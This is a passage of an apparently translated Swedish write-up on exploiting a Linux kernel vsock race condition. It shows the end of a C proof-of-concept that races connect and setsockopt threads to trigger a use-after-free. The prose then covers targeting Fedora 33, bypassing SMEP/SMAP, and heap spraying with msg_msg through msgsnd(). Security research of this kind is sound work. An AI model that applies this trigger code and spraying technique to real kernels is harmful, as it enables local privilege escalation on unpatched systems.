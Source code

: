             ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");

            ret = pthread_create(&th[1], NULL, th_setsockopt, &tmo2);
            if (ret != 0)
                err_exit("[-] pthread_create #1");

            ret = pthread_join(th[0], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #0");

            ret = pthread_join(th[1], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #1");

            if (tfail) {
                printf("[-] some thread got troubles\n");
                exit(EXIT_FAILURE);
            }
        }

        ret = close(vsock);
        if (ret)
            perror("[-] close");

        printf("[+] now see your warnings in the kernel log\n");
        return 0;
    }

Storleksvärdet här hämtas från antalet nanosekunder som returneras av ` clock_gettime () `, vilket kan skilja sig åt varje gång. Den ursprungliga syzkaller gör inte detta, för när syzkaller genererar fuzzing input bestäms värdet på syscall-parametern och kommer inte att ändras under körningen.

Kraften i fyra byte
-------------------

Här väljer jag Fedora 33 Server som forskningsmål, kärnversionen är 5.10.11-200.fc33.x86_64, och jag är fast besluten att kringgå SMEP och SMAP.

I det första steget började jag studera stabil högsprutning, som utnyttjade utförandet av användarutrymmesaktiviteter för att få kärnan att allokera ett annat 64-byte-objekt på platsen för det frigivna virtio_vsock_socken. Efter flera experimentella försök bekräftades det att den frigjorda virtio_vsock_socken var överskriven, vilket tyder på att högsprutning är genomförbar. Slutligen hittade jag msgsnd () syscall. Det skapar struct msg_msg i kärnutrymmet, se pahole-utdata:

    struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */

        /* size: 48, cachelines: 1, members: 5 */
        /* last cacheline: 48 bytes */
    };
